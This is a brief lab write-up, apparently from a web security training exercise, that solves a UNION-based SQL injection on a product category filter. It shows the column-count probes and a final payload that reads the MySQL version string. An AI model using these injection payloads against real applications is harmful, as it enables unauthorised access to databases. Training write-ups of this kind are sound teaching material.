 # Lab 03 :  SQL injection attack, querying the database type and version on MySQL and Microsoft

## Overview:
- Level : PRACTITIONER
- SQL Injection on product category filter
- Union attack
- End Goal : Display the database version string



## Analysis:
- Make the database retrieve the string: '8.0.36-0ubuntu0.20.04.1'
- put ' as product category it give 500 internal server error

## Solution:
- determine number of column
    ' UNION SELECT 'def'# gives 500 internal server error
    ' UNION SELECT 'def','adfs'# gives 200 ok responce
    so there are two column

- to get database type and version use following payload
    ' UNION SELECT @@version, NULL#


